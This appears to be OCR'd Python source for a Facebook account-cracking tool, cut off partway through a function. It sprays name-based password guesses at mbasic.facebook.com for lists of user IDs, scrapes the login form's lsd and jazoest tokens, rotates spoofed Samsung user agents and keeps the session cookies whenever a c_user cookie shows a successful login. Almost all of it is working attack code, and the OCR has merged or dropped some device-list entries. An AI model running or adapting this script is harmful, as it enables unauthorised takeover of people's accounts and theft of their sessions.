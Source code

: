 xxxxx=(f"GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
#
def ffb1(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [SOHAIL1x1] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'mbasic.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Shahin=session.cookies.get_dict().keys()
                        if "c_user" in Shahin:
                                coki=session.cookies.get_dict()